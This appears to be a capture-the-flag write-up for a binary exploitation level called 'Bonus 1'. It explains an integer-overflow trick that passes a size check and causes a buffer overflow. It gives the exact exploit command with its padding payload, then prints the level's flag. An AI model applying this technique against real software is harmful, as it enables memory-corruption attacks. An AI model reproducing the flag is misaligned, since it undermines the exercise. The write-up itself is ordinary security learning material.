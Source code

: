 # Bonus 1

The program use atoi on a number, checks if it is under 10 THEN multiplies it by 4 and we would like it to be 44 characters so we can overflow from the str buffer into the n variable and write what we need in there. So we find a number that is under 10 and that, when multiplied by 4 is over 44 with our little test program.

```bash
./a.out -2147483637
44
```

And now we just write after str direcrly in n the thing we need to write in there.

```bash
./bonus1 -2147483637 $(python -c 'print "N" * 40 + "\x46\x4c\x4f\x57"')
```

**Flag:** `579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245`
